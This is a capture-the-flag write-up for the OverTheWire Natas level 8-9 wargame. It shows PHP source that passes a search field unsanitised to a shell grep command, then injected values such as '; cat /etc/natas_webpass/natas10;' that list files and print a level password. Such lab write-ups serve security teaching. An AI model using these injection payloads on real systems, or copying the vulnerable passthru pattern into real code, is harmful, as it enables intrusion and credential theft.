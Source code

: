 # Level 8-9

LINK : http://natas9.natas.labs.overthewire.org

Source Code :

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "<censored>" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

So it returns different words present in dictionary.txt. 

Reads :

- http://php.net/manual/en/function.passthru.php

Let's try ls

- vedant dictionary.txt; ls; grep -i vedant dictionary.txt

Since in the beginning it is written

```html
All passwords are also stored in /etc/natas_webpass/
```

Let's try cat 

```html
- vedant dictionary.txt; cat /etc/natas_webpass/natas10; grep -i vedant dictionary.txt
```

which returns

```html
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```



- Let's  go deeper and try to fetch all password, 
  BANG !!!

  ```bash
  Output:
  natas0
  natas1
  natas10
  natas11
  natas12
  natas13
  natas14
  natas15
  natas16
  natas17
  natas18
  natas19
  natas2
  natas20
  natas21
  natas22
  natas23
  natas24
  natas25
  natas26
  natas27
  natas28
  natas29
  natas3
  natas30
  natas31
  natas32
  natas33
  natas34
  natas4
  natas5
  natas6
  natas7
  natas8
  natas9
  
  ```


  But that's no fun. Let's tackle each.​	